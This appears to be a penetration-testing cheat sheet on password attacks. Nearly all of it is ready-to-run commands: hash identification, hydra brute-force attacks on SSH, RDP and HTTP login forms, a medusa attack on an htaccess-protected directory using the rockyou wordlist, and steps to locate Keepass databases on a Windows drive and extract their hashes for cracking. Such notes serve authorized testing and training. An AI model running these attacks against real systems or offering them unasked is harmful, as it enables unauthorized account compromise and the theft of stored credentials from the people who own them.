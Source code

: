   

#### Identify Hash Type

```
hashid hash
hash-identifier hash
```



### Online

#### 1. SSH

```
hydra -l george -P <Wordlist> -s 2222 ssh://<IP>
	-s 				# port
hydra -l george -P <Wordlist> ssh://IP:PORT
```



#### 2. RDP

```
hydra -l USER -p PASS rdp://<IP>
hydra -L USER.txt -P PASS.txt -M IPList rdp
```



#### 3. HTTP POST Login

```
hydra -l user -P wordlist IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```



#### 4. HTTP htaccess attack

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```



### Offline

#### 1. Keepass .kdbx

1. search Keepass database file

   ```
   Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
   ```

2. format the database file

   ```
   keepass2john Database.kdbx > keepass.hash
   ```

